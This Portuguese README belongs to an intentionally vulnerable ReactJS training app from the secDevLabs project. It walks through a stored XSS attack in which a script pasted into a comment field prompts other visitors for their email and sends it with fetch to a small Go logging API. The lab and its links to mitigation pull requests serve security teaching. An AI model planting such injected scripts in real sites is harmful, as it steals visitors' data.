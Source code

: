 # Comment-killer

[Access content in English](README.md)

<p align="center">
    <img src="images/img1.png"/>
</p>

O Comment-killer é um aplicativo ReactJS simples, que possui uma vulnerabilidade de injeção (XSS) e seu principal objetivo é descrever como um usuário mal-intencionado poderia explorá-lo.

## Index

- [Definição](#O-que-é-Cross-Site-Scripting?)
- [Como inicializar o aplicativo?](#como-inicializar-o-aplicativo)
- [Narrativa de ataque](#narrativa-de-ataque)
- [Objetivos](#proteger-este-aplicativo)
- [Soluções](#pr-soluções)
- [Contribuição](#contribuição)


## O que é Cross Site Scripting??

As falhas de XSS ocorrem sempre que um aplicativo inclui dados não confiáveis em uma nova página da Web sem validação, escape adequados, ou atualiza uma página da Web existente com dados fornecidos pelo usuário usando uma API do navegador que pode criar HTML ou JavaScript. 

O XSS permite que os invasores executem scripts no navegador da vítima que podem sequestrar sessões do usuário, desfigurar sites ou redirecionar o usuário para sites maliciosos.

O objetivo principal deste aplicativo é discutir como as vulnerabilidades de **Cross-Site Scripting** podem ser exploradas e incentivar os desenvolvedores a enviar solicitações de pull do **secDevLabs** sobre como mitigar essas falhas. Saiba mais <a href="https://owasp.org/www-community/attacks/xss/">aqui</a>.

## Como inicializar o aplicativo?

Para iniciar este **aplicativo inseguro** intencionalmente, você precisará do [Docker][Docker Install] e do [Docker Compose][Docker Compose Install]. Depois de clonar o repositório [secDevLabs](https://github.com/globocom/secDevLabs), no seu computador, você deve digitar os seguintes comandos para iniciar o aplicativo:

```bash
cd secDevLabs/owasp-top10-2021-apps/a3/comment-killer
```

```bash
make install
```

Depois é só visitar [http://localhost:10007][app] ! 😆

## Conheça o app 💵

Para entender corretamente como esse aplicativo funciona, você pode seguir esse passo a passo:

- Leia a história legal por trás dos Memes.
- Adicione um novo comentário.

## Narrativa de ataque

Agora que você conhece o propósito deste aplicativo, o que pode dar errado? A seção a seguir descreve como um invasor pode identificar e, eventualmente, encontrar informações confidenciais sobre o aplicativo ou seus usuários. Recomendamos que você siga estas etapas e tente reproduzi-las por conta própria para entender melhor o ataque! 😜

### Nota: Esta narrativa de ataque funciona melhor no Mozilla Firefox.

### 👀

### Uma página ou aplicativo da Web é vulnerável ao XSS  se a entrada do usuário permitir scripts.

Após inspecionar a aplicação, é possível identificar que a entrada de comentário está permitindo scripts e pode ser executada em um navegador web. As imagens a seguir mostram esse comportamento quando o texto a seguir é usado como entrada nesses campos: 

```
<script>alert(1)</script>
```

Adicionando um novo comentário a uma postagem:

<p align="center">
    <img src="images/img2.png"/>
</p>

A validação de entrada ausente permite que um usuário mal-intencionado insira alguns scripts que persistirão no servidor e serão executados no navegador das vítimas toda vez que acessarem as rotas que contêm esses scripts. 

#### 🔥

Um invasor pode abusar dessa falha gerando um código JS malicioso e enviando-o para outros usuários. Para demonstrar isso, o exemplo a seguir criará um formulário de email para tentar roubar as credenciais do usuário.

Inicialmente, uma API é necessária para registrar todas as solicitações recebidas e pode ser construída em Golang da seguinte forma:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

Para iniciar a API, o seguinte comando pode ser usado (você deve verificar este [guia](https://golang.org/doc/install) se precisar de ajuda com o Golang):

```sh
go run main.go
```

Com a API em funcionamento, basta o seguinte código para mostrar uma mensagem pop-up solicitando o e-mail do usuário para continuar lendo o blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

O código JavaScript acima é responsável por enviar uma solicitação `GET` para a API do invasor para que ela possa ser registrada. Neste cenário, enviaremos solicitações para `localhost`.

Tudo o que precisamos agora é colar o código JavaScript no campo de comentários, conforme mostra a imagem a seguir:

<p align="center">
    <img src="images/img3.png"/>
</p>

Quando outro usuário acessar o aplicativo, o seguinte pop-up será mostrado, como podemos ver na imagem abaixo:

<p align="center">
    <img src="images/img4.png"/>
</p>

Enquanto isso, com a API em funcionamento, podemos receber o e-mail do usuário, conforme mostra a imagem a seguir:

<p align="center">
    <img src="images/img5.png"/>
</p>

## Proteger este aplicativo

Como você arrumaria essa vulnerabilidade? Após suas alterações, um invasor não poderá:

- Executar scripts por meio de campos de entrada

<a name="Sol"></a>

## PR Soluções

[Alerta de spoiler 🚨 ] Para entender como essa vulnerabilidade pode ser resolvida, confira [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3AComment-Killer)!

<a name="Cont"></a>

## Contribuição

Nós encorajamos você a contribuir com o SecDevLabs! Por favor, confira a seção [Contribuição no SecDevLabs](../../../docs/CONTRIBUTING.md) de como fazer a sua contribuição!🎉 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
[secdevlabs]: https://github.com/globocom/secDevLabs
